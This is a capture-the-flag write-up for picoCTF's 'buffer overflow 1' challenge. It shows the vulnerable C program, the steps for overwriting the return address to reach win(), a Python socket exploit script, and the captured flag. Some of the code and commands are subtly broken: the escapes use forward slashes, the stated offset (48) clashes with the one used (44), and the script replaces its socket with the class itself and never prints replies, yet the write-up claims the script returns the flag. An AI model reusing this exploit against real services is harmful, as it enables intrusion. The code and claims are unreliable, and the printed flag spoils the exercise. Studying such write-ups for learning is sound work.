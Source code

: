 # BufferOverFlow1
link challenge: https://play.picoctf.org/practice/challenge/258?category=6&page=2

## Description
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here.

## Solution
get the given file:

    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln
    wget https://artifacts.picoctf.net/c/185/vuln https://artifacts.picoctf.net/c/185/vuln.c

if we run the program with:

    chmod +x vuln
    ./vuln


the program will ask for a string. 

    Please enter your string: 

let's take a step back, we start with analysing the vuln.c source code.

first the BUFSIZE, from it we can consider that the offset maybe 32 or even more.

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include "asm.h"

    #define BUFSIZE 32
    #define FLAGSIZE 64



    void win() {
      char buf[FLAGSIZE];
      FILE *f = fopen("flag.txt","r");
      if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
        exit(0);
      }

      fgets(buf,FLAGSIZE,f);
      printf(buf);
    }

    void vuln(){
      char buf[BUFSIZE];
      gets(buf);

      printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
    }

    int main(int argc, char **argv){

      setvbuf(stdout, NULL, _IONBF, 0);
  
      gid_t gid = getegid();
      setresgid(gid, gid, gid);

      puts("Please enter your string: ");
      vuln();
      return 0;
    }

from these three functions, we can know that:
-  function win() is the function that will give us the flag
-  vuln() function seems there's an interesting one

       gets(buf);.  that's where the we will get the buffer
   
-  main() function we can know that is call vuln() function after we input a value
-  the end, we know that we can get the buffer by entering some payload while inputing the value

## exploitation step
before inputing some string to the program we must know the number of offset length is.
if we enter 32 A:

    python -c "print('A' * 32)" 

we'll get nothing strange, but if we entered the string length until 48 we'll get a segmentation fault.

    python -c "print('A' * 48)"

the program will crash and give us:
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: done                python -c "print('A' * 48)" | 
zsh: segmentation fault  ./vuln

from this, we know the offset length is 48.

if we analyze the 0x41414141 too, it's a hex number of "AAAA". so the program are jumping to the "AAAA" adresss.

what if we make the program to jump to the win() function address??
so, we must find the address of the win() function with "readelf" tools

the command to see the address function of vuln file is

    readelf -s ./vuln

-s for displaying the symbols table of the file

the output will given us the win() function address: 
    
    080491f6   139 FUNC    GLOBAL DEFAULT   13 win

080491f6 is the address, and don't forget that the address is in the hex number.

if we want to reach the win() function we must input 44 characters and the address of win 080491f6. but we must convert the address of win() to the 
little-endian format first:
/xf6/x91/x04/x08

so, let's execute it with the command:
python -c "print('A' * 44 + '/xf6/x91/x04/x08')" | nc saturn.picoctf.net 62768

but, the flag still doesn't show up.

so, i write a script to exploit this

    #!/usr/bin/env python3
    
    import argparse
    import socket
    import struct

    parser = argparse.ArgumentParser()
    parser.add_argument(
            "host",
            type=str,
            help="host name or ip adress to connect"
            )

    parser.add_argument(
            "port",
            type=int,
            help="port number to connect"
            )

    args = parser.parse_args()

    offset = 44

    new_address = struct.pack("<I", 0x080491f6)

    payload = b"".join(
        [
        b"A" * offset,
        new_address
        ]
    )

    payload += b"\n"

    print(args.host, args.port)

    with socket.socket() as connection:
        connection = socket.socket

        connection.connect((args.host, args.port))
        connection.recv(4096).decode("utf-8")
        connection.send(payload)
        connection.recv(4096).decode("utf-8")
        connection.recv(4096).decode("utf-8")

if we exploit this code with the command: 

    python exploit.py saturn.picoctf.net 62768 

the program will gives us the flag:

    picoCTF{addr3ss3s_ar3_3asy_6462ca2d}



